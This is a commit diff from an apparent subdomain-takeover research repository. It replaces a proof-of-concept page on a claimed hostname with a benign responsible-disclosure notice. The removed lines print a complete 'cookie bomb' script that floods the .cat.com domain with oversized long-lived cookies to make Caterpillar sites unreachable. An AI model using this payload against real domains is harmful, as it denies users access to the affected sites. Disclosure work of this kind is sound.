

Before and after one commit to luq0x/subtakeover, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
PoC: benign placeholder, repoint to devops-docs.cat.com

```diff
--- a/index.html
+++ b/index.html
@@ -1,22 +1,21 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-    <meta charset="UTF-8">
-    <title>Subdomain Takeover PoC</title>
+<meta charset="UTF-8">
+<meta name="robots" content="noindex, nofollow">
+<title>Security Research - Responsible Disclosure</title>
 </head>
 <body>
-    <h1>Subdomain Takeover PoC by m4rc10sz/luq0x</h1>
-    <hr>
-    <button onclick="cookieBomb()">Execute DoS PoC</button>
-    <script>
-        function cookieBomb() {
-            // Expires 400 days (maximum allowed by modern browsers)
-            var expires = new Date(Date.now() + 400 * 24 * 60 * 60 * 1000).toUTCString();
-            for (var i = 0; i < 150; i++) {
-                document.cookie = "cb_" + i + "=" + "B".repeat(3000) + "; domain=.cat.com; path=/; expires=" + expires + "; SameSite=None; Secure";
-            }
-            alert("DoS attack executed successfully!\n\nAll Caterpillar web properties are now unreachable in this browser.");
-        }
-    </script>
+<h1>Subdomain takeover proof of concept</h1>
+<p>This hostname resolved to an unclaimed GitHub Pages target and was claimed by a
+security researcher to demonstrate a subdomain takeover to the domain owner.</p>
+<ul>
+<li>Researcher: luq0x</li>
+<li>Reported via: HackerOne</li>
+<li>Date claimed: 2026-08-20</li>
+</ul>
+<p>No data is collected on this page. It contains no scripts, no forms and no tracking.
+This placeholder will be removed once the dangling DNS record is corrected.</p>
+<p>Domain owner: remove or repoint the dangling CNAME record for this hostname.</p>
 </body>
 </html>
```
Also changed, not shown: 1 other file.
